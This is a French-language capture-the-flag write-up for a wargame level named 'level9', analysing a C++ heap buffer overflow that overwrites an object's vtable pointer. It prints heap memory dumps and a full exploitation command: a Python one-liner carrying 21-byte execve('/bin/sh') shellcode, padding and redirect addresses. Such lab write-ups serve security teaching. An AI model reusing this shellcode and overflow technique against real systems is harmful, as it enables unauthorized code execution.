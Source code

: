 # level9 - C++ Buffer Overflow avec Shellcode

## Analyse du Programme

**Structure**
- Programme en C++
- Allocation dynamique avec `_Znwj` (opérateur new)
- Deux allocations de 108 bytes
- Copie de l'argument avec `memcpy`
- On a un call d'une fonction via un pointeur a la fin du main :
```nasm
    main<+159>:   call   *%edx
```


**Caractéristiques Mémoire**
- Premier bloc à `0x804a008`
- Second bloc à `0x804a078`
- Offset de 108 bytes entre les blocs
- memcpy à `0x0804a00c`
- Vtable de la classe à `0x08048848`

```nasm
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
```

![alt Ressources/vtable.png](Ressources/vtable.png)


## Exploitation

**Memory view**

```nasm
                                                                        shellcode(21 bytes)
0x804a008:      0x08048848 (vtptr)      0x0804a010-(adresse de)--> 0x99580b6a      0x2f2f6852
0x804a018:      0x2f686873              0x896e6962                 0xcdc931e3      0x41414180
0x804a028:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a038:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a048:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a058:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a068:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a078:      0x0804a00c              0x00000000                 0x00000000      0x00000000
                    |
                    |
                    +---------> Contient l'adresse 0x0804a010            
```

**Construction du Payload**
- Adresse pointant vers le debut de notre shellcode
- Shellcode: 21 bytes pour `execve("/bin/sh")`
- Padding: 83 bytes
- Adresse du pointeur pointant vers le debut de notre shellcode


**Commande d'Exploitation**
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')
```

Le payload:
1. Adresse pour écrire le shellcode
2. Shellcode de 21 bytes
3. Padding de 83 bytes
4. Adresse de retour pointant vers le shellcode

Cette exploitation permet d'exécuter le shellcode en redirigeant le flux d'exécution vers notre code malveillant dans la heap.
